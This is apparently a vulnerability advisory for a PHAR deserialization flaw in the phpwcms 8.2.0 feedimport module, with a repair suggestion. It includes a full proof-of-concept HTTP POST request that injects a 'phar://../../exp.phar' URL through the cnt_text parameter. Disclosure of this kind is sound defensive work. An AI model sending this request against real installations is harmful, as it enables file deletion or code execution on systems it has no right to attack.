 # `phar` deserialization vulnerability `feedimport` function

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the feedimport module through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cnt_text' parameter in the feedimport module, which triggers PHP's deserialization mechanism. This vulnerability allows attackers to inject PHP Objects through a PHAR file using a directory traversal attack pattern (../../). This vulnerability can be exploited to delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.
![alt text](../dists/phpwcms.png)

```text
POST /phpwcms.php?csrftoken=11172a0bf9955932b9f064e5215c098f&do=modules&module=feedimport&edit=0 HTTP/1.1
Host: dem0.com
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dem0.com/phpwcms.php?do=modules&module=feedimport&edit=0&csrftoken=11172a0bf9955932b9f064e5215c098f&PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk; phpwcmsBELang=en
Origin: http://dem0.com
Content-Length: 617

csrf_token_name=csrf682596161e0424.63421746&csrf_token_value=52c8bb1a370199c1ec7a45006e8c78ffa76c3ac9402ba651468347846a372c4f9475a8d316adbed661297207438779390450b4d14523bbd434bcb954c23f24a0&id=0&cnt_name=rss&cnt_text=phar%3A%2F%2F..%2F..%2Fexp.phar&cnt_object-structure_level_id=-2&cnt_object-article_template_detail=default&cnt_object-article_template_list=default&cnt_object-image_folder_id=0&cnt_object-image_url_replace=a&cnt_object-feed_cache_timeout=14400&cnt_object-author_id=1&cnt_object-author_name=Webmaster&cnt_object-source_link_text=a&cnt_object-import_status_email=a&cnt_status=1&submit=create&cnt_prio=
```

This vulnerability can also lead to arbitrary file read issues. See the reference link below:
[https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)


## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to ensure that the URLs passed to createFileFromUrl are valid and only allow the `HTTP` or `HTTPS` protocols. Malicious attackers may attempt to pass URLs using other protocols, such as `phar://`, which could trigger the deserialization vulnerability. Proper validation and filtering of URLs are critical for mitigating this risk.

